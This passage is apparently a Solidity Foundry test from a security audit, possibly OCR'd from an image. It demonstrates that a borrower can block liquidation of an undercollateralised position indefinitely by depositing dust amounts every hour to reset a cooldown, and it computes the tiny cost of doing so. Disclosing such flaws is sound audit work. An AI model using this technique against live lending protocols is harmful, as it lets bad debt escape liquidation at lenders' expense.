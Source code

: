  ```solidity
         _crashCollateralPrice();
 
         assertTrue(_userHasCollateral(alice));
 
         // 4. Alice prevents Bob liquidating her, by reseting coolDown period
         vm.prank(alice);
         collateralAndLiquidity.depositCollateralAndIncreaseShare(
             101 wei, // dust amount
             101 wei, // dust amount
             0,
             block.timestamp + 1 hours,
             false
         );
 
         // 5. Bob fails to liquidate Alice position
         vm.prank(bob);
         vm.expectRevert("Must wait for the cooldown to expire");
         collateralAndLiquidity.liquidateUser(alice);
 
         // Alice still has her collateral
         assertTrue(_userHasCollateral(alice));
 
         // Alice can block liquidation indefinitely
         assertEq(stakingConfig.modificationCooldown(), 1 hours);
         uint256 coolDown = 1 hours;
         // block liqudation for 30 days
         uint256 hoursIn30Days = 30 days / 1 hours;
         uint256 costToBlock;
 
         // deposit dust amount every 1 hour to reset cooldown and prevent liqudation
         for (uint256 i = 0; i <= hoursIn30Days; i++) {
             // Cooldown expires
             vm.warp(block.timestamp + 1 hours);
 
             // But Alice resets it
             vm.prank(alice);
             collateralAndLiquidity.depositCollateralAndIncreaseShare(
                 101 wei, // dust amount
                 101 wei, // dust amount
                 0,
                 block.timestamp + 1 hours,
                 false
             );
 
             // bob fails to liquidate again and again
             vm.prank(bob);
             vm.expectRevert("Must wait for the cooldown to expire");
             collateralAndLiquidity.liquidateUser(alice);
 
             // Alice still has her collateral
             assertTrue(_userHasCollateral(alice));
 
             //accumulate to the final cost
             costToBlock += 2 * 101 wei;
         }
 
         // 0.000000000000145642 dollars
         assertEq(costToBlock, 145642 wei);
     }
 ```
 